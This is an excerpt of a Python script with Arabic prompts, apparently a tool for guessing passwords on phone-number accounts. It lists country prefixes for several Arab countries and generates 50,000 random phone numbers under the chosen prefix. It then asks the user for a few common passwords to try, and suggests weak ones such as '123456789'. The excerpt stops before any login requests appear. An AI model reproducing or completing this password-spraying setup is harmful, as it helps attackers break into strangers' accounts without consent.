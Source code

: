 # APK CHECK
def i():
    user=[]
    twf =[]
    os.getuid
    os.geteuid
    os.system("clear")
    jalan(logo)    
    jalan("\033[1;31m                          اداه دول")
    jalan('''\033[1;32m-----------------------------------------------------------
\033[1;32m===>الاردن<===
\033[1;32m=\033[1;33m=\033[1;35m>\033[1;32m{96277}
\033[1;32m=\033[1;33m=\033[1;35m>\033[1;32m{96278}
\033[1;32m=\033[1;33m=\033[1;35m>\033[1;32m{96279}
\033[1;32m-----------------------------------------------------------
===>العراق<===
\033[1;32m=\033[1;33m=\033[1;35m>\033[1;32m{964770}
\033[1;32m=\033[1;33m=\033[1;35m>\033[1;32m{964771}
\033[1;32m=\033[1;33m=\033[1;35m>\033[1;32m{964750}
\033[1;32m=\033[1;33m=\033[1;35m>\033[1;32m{964751}
\033[1;32m-----------------------------------------------------------
\033[1;32m===>فلسطين<===
\033[1;32m=\033[1;33m=\033[1;35m>\033[1;32m{97059}
\033[1;32m=\033[1;33m=\033[1;35m>\033[1;32m{97082}
\033[1;34m-----------------------------------------------------------
\033[1;32m===>الجزائر<===
\033[1;32m=\033[1;33m=\033[1;35m>\033[1;32m{21355}
\033[1;32m=\033[1;33m=\033[1;35m>\033[1;32m{21366}
\033[1;32m=\033[1;33m=\033[1;35m>\033[1;32m{21367}
\033[1;32m-----------------------------------------------------------
\033[1;32m===>اليمن<===
\033[1;32m=\033[1;33m=\033[1;35m>\033[1;32m{96777}
\033[1;32m=\033[1;33m=\033[1;35m>\033[1;32m{96773}
\033[1;32m=\033[1;33m=\033[1;35m>\033[1;32m{96771}
\033[1;32m=\033[1;33m=\033[1;35m>\033[1;32m{96770}
\033[1;32m-----------------------------------------------------------
\033[1;32m===>مصر<===
\033[1;32m=\033[1;33m=\033[1;35m>\033[1;32m{2010}
\033[1;32m=\033[1;33m=\033[1;35m>\033[1;32m{2011}
\033[1;32m=\033[1;33m=\033[1;35m>\033[1;32m{2012}
\033[1;32m=\033[1;33m=\033[1;35m>\033[1;32m{20100}
\033[1;32m-----------------------------------------------------------
\033[1;32m===>سوريا<===
\033[1;32m=\033[1;33m=\033[1;35m>\033[1;32m{96393}
\033[1;32m=\033[1;33m=\033[1;35m>\033[1;32m{96394}
\033[1;32m=\033[1;33m=\033[1;35m>\033[1;32m{96395}
\033[1;32m-----------------------------------------------------------''')

    code = input('\033[1;32m اختر الدوله واكتب الرمز تبعها : ')
    os.system("clear")
    limit = 50000
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    os.system("clear")
    print(logo)
    print('\033[1;32m مرحبا عزيزي المستخدم يرجى اختيار عدد الباسوردات مثلا اذا اخترت رقم 5 فيجب عليك ادخال خمس باسوردات لتخمين فكل ما عليك هو كتابت رقم من 1الى 10 ومن ثم ادخال الباسوردات لتخمين ')
    print('\033[1;33m هذه بعض الباسوردات لتخمين \n 123466,12345678,123456789,1234567890,123123,123123123,11223344,1122334455,١٢٣٤٥٦,١٢٣٤٥٦٧٨,١٢٣٤٥٦٧٨٩,٠٩٨٧٦٥٤٣٢١,65321,19991999,1998198 ')
    passx = int(input("\033[1;32m[VIP] عدد باسوردات التخمين اختر رقم من 1الى 10 :"))
    HamiiID = []